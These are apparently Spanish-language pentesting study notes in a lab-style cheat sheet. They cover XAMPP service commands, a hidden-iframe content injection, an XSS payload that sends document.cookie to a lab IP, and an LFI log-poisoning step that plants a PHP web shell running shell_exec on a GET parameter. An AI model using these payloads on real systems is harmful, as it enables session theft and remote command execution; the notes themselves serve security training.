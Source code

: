#### Iniciar y detener servicio mysql
```
c:\xampp\mysql_start.bat &
c:\xampp\mysql_stop.bat
```

#### Iniciar sesion en mysql
```
c:\xampp\mysql\bin\mysql.exe -u noroot -p
```

#### Iniciar y detener apache
```
c:\xampp\apache_start.bat
C:\xampp\apache_stop.bat
```

#### Iniciar y detener ambos servicios
```
C:\xampp\xampp_start.exe
C:\xampp\xampp_stop.exe
```

-----

### XSS
- XSS reflejado
- XSS persistente
- XSS basado en DOM

#### Content Injection
```
<iframe src=http://10.11.0.4/report height="0" width=”0”></iframe> 
```

#### Robo de cookies e información de sesión
```
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script> 
```

### LFI
```
APACHE LOG
nc -nv 10.11.0.22 80
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```
